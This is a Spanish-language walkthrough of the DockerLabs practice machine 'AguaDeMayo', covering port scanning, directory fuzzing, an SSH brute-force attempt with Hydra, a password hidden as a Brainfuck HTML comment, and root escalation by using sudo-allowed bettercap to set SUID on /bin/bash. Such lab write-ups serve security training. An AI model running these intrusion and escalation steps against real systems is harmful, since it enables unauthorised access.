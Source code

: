 # 🧪 Informe de Pentesting – Máquina *AguaDeMayo*

* **Nombre**: AguaDeMayo
* **Nivel**: Fácil
* **Objetivo**: Obtener acceso a la máquina como root a través de explotación de servicios y técnicas de escalada de privilegios.
* **Logo**:
![Logo](Logo.png)

---

## 🐳 Despliegue de la Máquina

Descargamos la máquina desde la página oficial de DockerLabs y procedemos a descomprimirla:

```bash
unzip aguademayo.zip
```

Luego, la desplegamos utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh aguademayo.tar
```

Imagen del despliegue exitoso:
![Despliegue](./AguaDeMayo/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Verificamos que la máquina esté activa con un simple ping:

```bash
ping -c4 172.17.0.2
```

Resultado del ping:
![Ping](./AguaDeMayo/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Utilizamos Nmap para descubrir todos los puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

El resultado revela que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.
![Puertos](./AguaDeMayo/Imagenes/Puertos.jpeg)

---

## 🧪 Detección de Servicios

Con mi script personalizado `extractPorts` extraigo automáticamente los puertos abiertos y la IP, luego realizo un escaneo más profundo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Esto nos permite obtener información detallada sobre los servicios y versiones activas.
![Servicios](./AguaDeMayo/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accediendo al puerto 80 en el navegador, se muestra la página por defecto de Apache2:

![Página Web](./AguaDeMayo/Imagenes/Pagina.jpeg)

Realizamos fuzzing con `gobuster` para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Se descubre el directorio `/images`:
![Gobuster](./AguaDeMayo/Imagenes/Gobuster.jpeg)

Al acceder a `http://172.17.0.2/images/`, encontramos un archivo JPG llamado `agua_ssh.jpg`:
![Directorio](./AguaDeMayo/Imagenes/Directorio.jpeg)

---

## 🧾 Análisis de Metadatos

Usamos `exiftool` para analizar los metadatos del archivo JPG:

```bash
exiftool agua_ssh.jpg
```

No se encuentra información útil. También se realiza otro escaneo con Gobuster, pero no se identifican más recursos relevantes.
![Imagen](./AguaDeMayo/Imagenes/Imagen.jpeg)

---

## 🔐 Intento de Fuerza Bruta SSH

Dado el nombre de la imagen `agua_ssh.jpg`, se prueba con el usuario `agua` utilizando Hydra para encontrar la contraseña, sin éxito:

```bash
hydra -l agua -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

---

## 🧠 Análisis del Código Fuente

Revisando el código fuente HTML de la página principal, encontramos un comentario sospechoso:

```html
<!-- +[----->+++<]>+.+++++++.--------.+++.------.--------. -->
```

Este es código en **Brainfuck**, un lenguaje de programación esotérico. Lo traducimos en línea y obtenemos:

```
bebeaguaqueessano
```

Este resultado parece ser una contraseña.

![Decodificación](./AguaDeMayo/Imagenes/Codificar.jpeg)

---

## 🔑 Acceso SSH

Con las credenciales:

* **Usuario**: agua
* **Contraseña**: bebeaguaqueessano

Accedemos exitosamente al servicio SSH:

```bash
ssh agua@172.17.0.2
```

![Acceso SSH](./AguaDeMayo/Imagenes/SSh.jpeg)

---

## 🚀 Escalada de Privilegios

Usamos `sudo -l` para verificar los privilegios del usuario `agua`:

```bash
sudo -l
```

Descubrimos que puede ejecutar `bettercap` como root sin contraseña. Aprovechamos esto para habilitar el bit SUID en `/bin/bash`:

1. Iniciamos bettercap como root:

   ```bash
   sudo bettercap
   ```

2. Dentro de bettercap ejecutamos:

   ```bash
   !/usr/bin/chmod u+s /bin/bash
   ```

3. Salimos de bettercap y ejecutamos:

   ```bash
   /bin/bash -p
   ```

Esto nos proporciona una shell como root, gracias al bit SUID activado.

![Root Access](./AguaDeMayo/Imagenes/Root.jpeg)

---

## ✅ Conclusión

La máquina *AguaDeMayo* representa un excelente escenario para practicar técnicas básicas de:

* Enumeración web
* Análisis de metadatos
* Reconocimiento de lenguajes ocultos (Brainfuck)
* Acceso a través de SSH
* Escalada de privilegios con binarios permitidos como sudo

Gracias al acceso permitido a `bettercap` y la posibilidad de establecer permisos SUID, se logra obtener una shell como root, completando así el reto.

